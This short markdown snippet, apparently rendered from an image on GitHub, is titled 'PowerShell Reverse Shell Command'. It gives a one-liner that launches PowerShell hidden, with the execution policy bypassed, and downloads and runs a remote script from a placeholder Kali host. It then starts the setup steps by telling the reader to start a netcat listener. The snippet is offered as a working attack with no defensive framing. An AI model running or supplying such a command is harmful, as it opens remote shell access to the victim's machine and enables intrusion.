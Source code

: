 ## **PowerShell Reverse Shell Command**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

### **Steps:**

1. **Set Up the Listener on Kali**  
    Run Netcat to listen for incoming connections:
    
    ```bash
    nc -lvnp <port>
    ```
    
    Replace `<port>` with the desired listening port.
    
